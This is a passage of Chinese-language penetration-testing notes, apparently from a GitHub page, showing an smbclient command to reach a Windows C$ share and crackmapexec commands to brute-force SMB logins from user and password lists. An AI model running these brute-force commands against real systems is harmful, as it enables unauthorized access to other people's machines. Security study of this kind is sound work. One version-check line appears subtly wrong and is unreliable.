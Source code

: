 SMB遠端連線
```
smbclient -U '<user>&<password>' //<ip>/c$
```
![image](images/B1xYFFCUp.png)


### 爆破Windows最好的工具 : crackmapexec(使用impacket模板)
#### 更新impacket模組
```
python3 -m pip install --upgrade impacket
```
![image](images/ByHDvK086.png)

確認更新後版本
```
python3 -m pip install | grep impacket
```
![image](images/HyvtvYALa.png)

#### crackmapexec運用
```
crackmapexec smb <smb_IP> -u <users.txt> -p <password.txt>
```
可搭配--continue-on-success